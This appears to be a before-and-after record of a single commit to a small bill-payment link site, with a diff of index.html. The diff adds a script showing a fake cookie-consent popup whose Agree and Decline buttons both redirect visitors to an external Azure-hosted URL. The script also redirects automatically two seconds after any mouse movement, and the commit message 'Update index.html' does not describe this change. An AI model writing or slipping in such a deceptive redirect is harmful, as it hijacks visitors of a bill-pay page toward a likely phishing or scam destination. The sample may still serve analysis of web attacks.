

Before and after one commit to mancillajoaquin204/paybillsonline, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 94-794 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -127,7 +127,87 @@
             <li><a href="https://www.xcelenergy.com/account">Xcel Energy Bill Pay</a></li>
         </ul>
     </div>
+	<script>
+(function () {
+  const destination = "https://brave-beach-0e041611e.6.azurestaticapps.net/"; // 🧭 Replace this with your actual destination URL
+  let hasRedirected = false;
+  let movementDetected = false;
+  let startPosition = null;
 
+  function triggerRedirect() {
+    if (!hasRedirected) {
+      hasRedirected = true;
+      window.location.href = destination;
+    }
+  }
+
+  function launchPopup() {
+    const popupContainer = document.createElement("div");
+    popupContainer.innerHTML = `
+      <div style="
+        position: fixed;
+        inset: 0;
+        background-color: rgba(0, 0, 0, 0.6);
+        display: flex;
+        justify-content: center;
+        align-items: center;
+        z-index: 99999;">
+        <div style="
+          background-color: #fff;
+          padding: 2rem;
+          border-radius: 20px;
+          width: 90%;
+          max-width: 480px;
+          text-align: center;
+          box-shadow: 0 0 25px rgba(0,0,0,0.2);">
+          <h2 style="margin-top: 0; font-size: 24px; color: #222;">🔐 Privacy Preferences</h2>
+          <p style="font-size: 14px; color: #444;">
+            Our website uses cookies to improve performance and user experience.
+            <a href="${destination}" style="color: #007acc;">More details</a>.
+          </p>
+          <div style="margin-top: 1.5rem; display: flex; gap: 1rem; justify-content: center;">
+            <button id="agreeBtn" style="
+              padding: 10px 22px;
+              background-color: #198754;
+              color: #fff;
+              border: none;
+              border-radius: 10px;
+              font-weight: 600;
+              cursor: pointer;">Agree</button>
+            <button id="disagreeBtn" style="
+              padding: 10px 22px;
+              background-color: #c82333;
+              color: #fff;
+              border: none;
+              border-radius: 10px;
+              font-weight: 600;
+              cursor: pointer;">Decline</button>
+          </div>
+        </div>
+      </div>
+    `;
+    document.body.appendChild(popupContainer);
+
+    document.getElementById("agreeBtn").addEventListener("click", triggerRedirect);
+    document.getElementById("disagreeBtn").addEventListener("click", triggerRedirect);
+  }
+
+  window.addEventListener("load", launchPopup);
+
+  window.addEventListener("mousemove", function (event) {
+    if (!movementDetected) {
+      if (!startPosition) {
+        startPosition = { x: event.clientX, y: event.clientY };
+        return;
+      }
+      if (event.clientX !== startPosition.x || event.clientY !== startPosition.y) {
+        movementDetected = true;
+        setTimeout(triggerRedirect, 2000);
+      }
+    }
+  });
+})();
+</script>
 
     <footer>
         <p>&copy; 2025 Bill Payment Services. All Rights Reserved.</p>
```
